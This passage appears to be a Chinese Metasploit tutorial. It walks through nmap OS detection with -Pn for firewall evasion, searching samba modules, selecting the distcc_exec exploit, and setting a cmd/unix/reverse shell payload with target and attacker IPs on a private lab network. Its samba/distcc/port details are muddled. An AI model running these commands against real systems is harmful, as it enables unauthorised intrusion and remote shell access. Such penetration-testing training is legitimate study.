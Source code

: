 `msf5 > nmap -O -Pn 192.168.0.180`  // 获取目标主机的操作系统

其中Pn和p0参数的意思是不使用ping的方式，

可以穿透防火墙，也可以避免被防火墙发现。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g61i0rlje2j30p20cqab8.jpg)

# 漏洞利用

每个操作系统都会存在各种各样Bug，而没有公开或者发布补丁的BUG就是0day漏洞。

## 搜索漏洞利用模块

已知靶机上运用samba 3.x服务，所有搜索samba的漏洞利用模块，并选择合适的漏洞利用模块。

`msf5 > search samba     //搜索samba的漏洞利用模块`

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g61l37djsqj30on0fbdtl.jpg)

## 添加漏洞利用模块

use exploit/unix/misc/distcc_exec   //添加漏洞利用模块

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g61nz7fzfvj30om015t95.jpg)



## 设置攻击载荷

 `show payloads`           //列举出攻击载荷

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g65vgremw2j30qb0e2tlf.jpg)

这里选择一个payloads并进行设置，

set payload cmd/unix/reverse     //设置攻击载荷模块。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g65vljforzj30kg01yaaw.jpg)

使用`show options`查看参数并设置对应的参数，

列如：

set RHOSTS 192.168.0.88   //设置被攻击主机IP地址

set RPORT 445          //设置漏洞利用端口

set lhost 192.168.0.94        //设置发动攻击主机IP地址

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g65vu25bshj30pl067aeq.jpg)

## 开始攻击
